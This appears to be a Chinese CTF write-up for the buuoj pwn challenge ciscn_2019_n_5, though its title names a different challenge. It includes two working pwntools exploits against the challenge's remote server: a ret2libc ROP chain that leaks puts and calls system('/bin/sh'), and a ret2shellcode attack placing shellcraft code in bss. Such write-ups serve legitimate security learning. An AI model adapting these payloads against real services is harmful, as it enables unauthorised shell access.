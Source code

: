 ```yaml
---
title: ROP ciscn_2019_c_1
tags: [ctf-pwn,exp]
date: 2022-11-16 19:07:00
categories: [ctf-pwn]
excerpt: exp
---
```


**题目**

<https://buuoj.cn/challenges#ciscn_2019_n_5

![](/img/ciscn_2019_n_5/1.jpg)

依旧是栈溢出，可以构造rop，也可以直接ret2shellcode（没开NX）

由于rop写习惯了，先列出rop的做法

![](/img/ciscn_2019_n_5/2.jpg)

第一个输入随便写，第二个输入开始溢出

![](/img/ciscn_2019_n_5/3.jpg)

溢出30+2+8 = 40个字节，用puts的got表来泄露libc基址

值得注意的是返回main后第二遍溢出时需要栈对齐

**Exp1**

```python
from pwn import *
from LibcSearcher import *

#p = process("./ciscn_2019_n_5")
p = remote('node4.buuoj.cn',27829)

e = ELF("./ciscn_2019_n_5")

main = e.symbols["main"]
puts_got = e.got["puts"]
puts_plt = e.plt["puts"]

pop_rdi = 0x400713
ret = 0x4004c9

p.recvline()
p.sendline(b'aaaa')
p.recvline()

payload = b'a' * 40 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)

p.sendlineafter(b"What do you want to say to me?\n", payload)

puts_addr =  u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

print(hex(puts_addr))

libc = LibcSearcher('puts', puts_addr)
offset = puts_addr - libc.dump('puts')
system = offset + libc.dump('system')
binsh = offset + libc.dump('str_bin_sh')

p.recvline()
p.sendline(b'aaaa')
p.recvline()

payload = b'a' * 40 + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
p.sendlineafter(b"What do you want to say to me?\n", payload)
p.interactive()
```



**ret2shellcode**

![](/img/ciscn_2019_n_5/4.jpg)

由于题目给了bss段上100个字节的空间，可以用来写shellcode

需要在注意的包括context.arch设置平台环境

而且特意看了一下 `len(shellcode) `是 48 < 100字节

```python
from pwn import *
from LibcSearcher import *

#p = process("./ciscn_2019_n_5")
p = remote('node4.buuoj.cn',27829)

context.arch = 'amd64'
context.log_level = 'debug'
shellcode = asm(shellcraft.sh())
name_addr = 0x0601080
p.sendlineafter("tell me your name\n",shellcode)
payload = b'a' * (0x20 + 0x8) + p64(name_addr)
p.sendlineafter(b"What do you want to say to me?\n",payload)
p.interactive()
```

